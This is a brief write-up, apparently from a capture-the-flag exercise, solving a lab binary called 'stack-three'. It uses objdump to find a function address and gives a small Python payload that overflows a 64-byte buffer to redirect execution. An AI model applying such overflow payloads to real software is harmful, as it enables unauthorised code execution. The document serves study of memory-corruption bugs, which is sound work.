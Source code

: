 ### Stackthree 
This one was relatively easier with lesser embarassment :P
So first thing to do is use objdump to disassemble the code and find the function locations.
`objdump -D -M intel ./stack-three`
With this we find out the offset of our function and then we simply had to overflow it to 
that location to get it sorted and executed.

### Code
```
padding = 'A'*64
offset = '\x00\x40\x06\x9d'
print(padding+offset[::-1])
```


### Creds
```
No flags in here :P
```


 ~Kurama
